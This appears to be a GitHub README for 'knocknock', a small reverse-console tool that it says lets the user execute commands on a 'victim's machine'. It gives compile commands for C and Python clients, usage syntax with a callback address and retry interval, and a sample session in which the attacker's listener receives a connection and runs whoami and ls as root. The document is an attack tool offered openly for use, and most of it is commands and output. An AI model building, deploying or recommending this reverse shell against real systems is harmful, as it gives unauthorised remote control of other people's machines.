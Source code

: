 > ![](cmd.ico) A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)


### Compile C version `knocknock.c`
```bash
# Windows CL
$> cl knocknock.c /O1 /D WIN32 /Fe knocknock /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 knocknock.c -o knocknock
```

### How To Use?
```bash
$> ./server.py bind_address:bind_port
$> ./knocknock.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same argument)
$> ./knocknock.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./knocknock.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```bash
root@server 07:47 /home $ ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 knocknock
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```bash
root@boy 07:47 /home $ ./knocknock *.*.*.*:2345
```
End.
